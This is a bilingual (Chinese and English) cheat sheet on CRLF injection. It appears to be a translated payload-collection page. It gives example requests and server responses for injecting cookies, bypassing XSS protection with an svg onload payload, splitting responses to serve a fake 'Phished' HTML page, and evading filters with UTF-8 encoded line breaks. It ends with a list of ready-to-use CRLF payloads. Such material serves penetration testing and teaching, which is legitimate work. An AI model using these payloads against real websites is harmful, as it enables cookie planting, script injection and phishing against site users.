# Carriage Return Line Feed - CRLF注入

>  CRLF 是指回车 (ASCII 13, \r) 和换行 (ASCII 10, \n)。它们用于表示一行的终止，但是在不同操作系统中处理方式不同。例如：在 Windows 中，CR 和 LF 都需要，而在 Linux/UNIX 中，只需要 LF。在 HTTP 协议中，CR-LF 总是用于表示一行的终止。 
>
> 当用户设法将 CRLF 提交到应用程序时，就会发生 CRLF 注入攻击。这通常是通过修改 HTTP 参数或 URL 来完成的。

## Summary - 总结

  - [CRLF - Add a cookie - 添加cookie](#crlf---add-a-cookie---添加cookie)
  - [CRLF - Add a cookie / XSS Bypass - 添加cookie / XSS绕过](#crlf---add-a-cookie--xss-bypass---添加cookie--xss绕过)
  - [CRLF - Write HTML - 编写HTML](#crlf---write-html---编写html)
  - [CRLF - Filter Bypass - 过滤绕过](#crlf---filter-bypass---过滤绕过)
  - [Labs](#labs)
  - [Exploitation Tricks - 技巧](#exploitation-tricks---技巧)
  - [References](#references)
  - [Payload](#payload)


## CRLF - Add a cookie - 添加cookie

请求页面：

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP响应：

```
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie / XSS Bypass - 添加cookie / XSS绕过

请求页面：

```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP响应：

```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML - 编写HTML

请求页面：

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP响应：

```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## CRLF - Filter Bypass - 过滤绕过

UTF-8编码：

```
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

此处：

- %E5%98%8A = %0A = \u560a
- %E5%98%8D = %0D = \u560d
- %E5%98%BE = %3E = \u563e (>)
- %E5%98%BC = %3C = \u563c (<)

## Labs

- https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection

## Exploitation Tricks - 技巧

- 尝试搜索导致重定向的参数并对其进行模糊测试。
- 测试网站的移动版本，有时会与网页版有所不同，或使用不同的后端。

## References

- https://www.owasp.org/index.php/CRLF_Injection
- https://vulners.com/hackerone/H1:192749

## Payload

```
/%%0a0aSet-Cookie:crlf=injection
/%0aSet-Cookie:crlf=injection
/%0d%0aSet-Cookie:crlf=injection
/%0dSet-Cookie:crlf=injection
/%23%0aSet-Cookie:crlf=injection
/%23%0d%0aSet-Cookie:crlf=injection
/%23%0dSet-Cookie:crlf=injection
/%25%30%61Set-Cookie:crlf=injection
/%25%30aSet-Cookie:crlf=injection
/%250aSet-Cookie:crlf=injection
/%25250aSet-Cookie:crlf=injection
/%2e%2e%2f%0d%0aSet-Cookie:crlf=injection
/%2f%2e%2e%0d%0aSet-Cookie:crlf=injection
/%2F..%0d%0aSet-Cookie:crlf=injection
/%3f%0d%0aSet-Cookie:crlf=injection
/%3f%0dSet-Cookie:crlf=injection
/%u000aSet-Cookie:crlf=injection
```

